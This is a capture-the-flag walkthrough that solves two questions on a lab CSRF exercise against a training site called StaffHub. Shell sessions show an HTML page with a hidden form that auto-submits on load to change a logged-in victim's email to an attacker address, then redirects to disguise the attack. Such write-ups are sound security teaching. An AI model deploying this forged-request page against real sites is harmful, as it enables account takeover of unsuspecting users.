


## Exercises

### Question 1 — What is the flag value after updating the email to attacker@evilmail.thm?


Creating the settings file.

```shell
┌──(—REDACTED—㉿kali)-[/var/www/html]
└─$ sudo nano settings.html
```

```shell
┌──(—REDACTED—㉿kali)-[/var/www/html]
└─$ cat settings.html

<html>
<body>

<form action="http://staffhub.thm:8080/update_email.php" method="POST" id="attack">
<input type="hidden" name="email" value="attacker@evilmail.thm">
</form>

<script>
document.getElementById("attack").submit();

// redirect user after the request is sent
setTimeout(function() {
    window.location.href = "http://staffhub.thm:8080/settings.php";
}, 1000);
</script>

</body>
</html>
```

The page's own HTML sets `email` to `attacker@evilmail.thm` in the hidden field, auto-submits the form to `update_email.php` on `staffhub.thm:8080`, and redirects to the real settings page a second later.

```shell
┌──(—REDACTED—㉿kali)-[/var/www/html]
└─$ sudo systemctl start apache2
```

**Breakdown:**

- `sudo` runs the command with elevated privileges, needed to manage system services
- `systemctl start apache2` starts the Apache web server, which serves files from `/var/www/html` — the `settings.html` file just created becomes reachable over HTTP once this is running

```
http://127.0.0.1/settings.html
```

Opening this address in the browser, whilst logged in to StaffHub, loads the page and fires the forged request.



**Answer:** `—REDACTED—`

### Question 2 — What is the flag value after updating the email to special@evilmail.thm?

```shell
┌──(—REDACTED—㉿kali)-[/var/www/html]
└─$ sudo nano settings.html
```

```shell
┌──(—REDACTED—㉿kali)-[/var/www/html]
└─$ cat settings.html

<html>
<body>

<form action="http://staffhub.thm:8080/update_email.php" method="POST" id="attack">
<input type="hidden" name="email" value="special@evilmail.thm">
</form>

<script>
document.getElementById("attack").submit();

// redirect user after the request is sent
setTimeout(function() {
    window.location.href = "http://staffhub.thm:8080/settings.php";
}, 1000);
</script>

</body>
</html>
```

The only change from the first attempt is the hidden field's value, now `special@evilmail.thm`. 

```
http://127.0.0.1/settings.html
```

Opening this address again fires the forged request with the new email.



**Answer:** `—REDACTED—`